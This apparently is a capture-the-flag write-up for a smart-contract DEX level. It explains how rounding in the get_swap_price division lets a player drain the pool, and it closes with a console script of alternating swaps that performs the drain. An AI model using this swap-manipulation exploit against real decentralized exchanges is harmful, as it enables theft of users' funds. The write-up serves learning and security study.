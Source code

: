 ### Analysis
The vulnerability originates from get_swap_price method which determines the exchange rate between tokens in the Dex. The division in it won't always calculate to a perfect integer, but a fraction. And there is no fraction types in Solidity. Instead, division rounds towards zero. according to docs. For example, 3 / 2 = 1 in solidity.

|      DEX       |        player  |
| :-----------: | :--------------------------: |
token1 - token2 | token1 - token2
  100   -  100   |   10   -   10
  110   -  90    |   0    -   20    
  86    -  110   |   24   -   0    
  110   -  80    |   0    -   30    
  69    -  110   |   41   -   0    
  110  -   45    |   0    -   65   


### The Exploit
Run the code in Developer Tools:
~~~
await contract.approve(contract.address, 500)

t1 = await contract.token1()
t2 = await contract.token2()

await contract.swap(t1, t2, 10)
await contract.swap(t2, t1, 20)
await contract.swap(t1, t2, 24)
await contract.swap(t2, t1, 30)
await contract.swap(t1, t2, 41)
await contract.swap(t2, t1, 45)
~~~